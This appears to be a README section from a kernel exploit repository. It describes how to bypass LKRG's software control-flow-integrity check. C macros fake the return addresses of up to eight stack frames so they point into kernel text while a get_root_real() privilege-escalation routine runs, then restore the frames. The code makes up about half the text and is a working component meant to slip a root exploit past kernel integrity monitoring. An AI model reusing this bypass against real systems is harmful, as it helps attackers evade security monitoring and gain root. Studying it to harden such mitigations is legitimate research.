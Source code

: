 CFI bypass
==========

Software-based CFI mitigation (pCFI) was intoduced in LKRG 0.6 (https://www.openwall.com/lists/lkrg-users/2019/02/19/1).

The idea behind this mitigation is that LKRG walks through the call stack checking if the stack-frame has the address which belongs to the kernel. Once it detects the address which points outside the kernel's text it will trigger an alarm.

Bypassing LKRG's pCFI mitigation is trivial and can be done by wrapping the `get_root()` function as follows:

~~~
struct stack_frame {
	struct stack_frame *next_frame;
	unsigned long return_address;
};

#define cfi_bypass_enter(frames, depth) \
do { \
	struct stack_frame *frame = __builtin_frame_address(0); \
	for (int i = 1; i < (depth); i++) { \
		frames[i] = *frame; \
		frame->return_address = X_printk; \
		frame = frame->next_frame; \
	} \
} while (0)

#define cfi_bypass_leave(frames, depth) \
do { \
	struct stack_frame *frame = __builtin_frame_address(0); \
	for (int i = 1; i < (depth); i++) { \
		*frame = frames[i]; \
	frame = frame->next_frame; \
	} \
} while (0)

void get_root()
{
	struct stack_frame frames[ 8 ];
	cfi_bypass_enter(frames, sizeof(frames) / sizeof(frames[0]));
	get_root_real();
	cfi_bypass_leave(frames, sizeof(frames) / sizeof(frames[0]));
}
~~~

Here, `cfi_bypass_enter` is a macro which fakes `N` frames by:
 - saving them locally to `frames` array
 - replacing `return_address` of each frame so it will point to some address in kernel's text

Once the call to `get_root_real()` is done `cfi_bypass_leave` macro does the opposite: it restores all the saved frames from the `frames` array.
